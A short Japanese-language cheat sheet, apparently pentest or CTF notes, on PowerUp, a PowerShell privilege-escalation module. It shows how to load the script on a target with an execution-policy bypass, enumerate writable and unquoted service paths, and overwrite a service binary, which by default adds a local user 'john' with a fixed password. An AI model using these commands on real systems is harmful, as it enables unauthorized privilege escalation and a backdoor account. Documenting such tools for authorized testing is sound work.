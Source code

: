 # PowerUp
[Documentation]()

ターゲット上に.ps1を転送して、ターゲットのPowerShell上で以下のコマンドを実行すると、PowerShell上でPowerUpをインポートしてモジュールを使えるようになる。  
書き換え可能なバイナリファイルの調査等に便利。
　　
```.ps1
powershell -ep bypass
. .\PowerUp.ps1
```


## コマンド集
1. 書き換え可能なサービスとバイナリファイルのフルパスを表示する
```.ps1
Get-ModifiableServiceFile
```

2. Unquoted-Serviceの脆弱性がある可能性のあるバイナリとサービスを列挙する
```.ps1
Get-UnquotedService
```

3. GammbaServiceというサービスのパスに、Current.exeのバイナリファイルを書き込む。  
デフォルトではjohnユーザがパスワードPassword123!で作られる。
```.ps1
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
```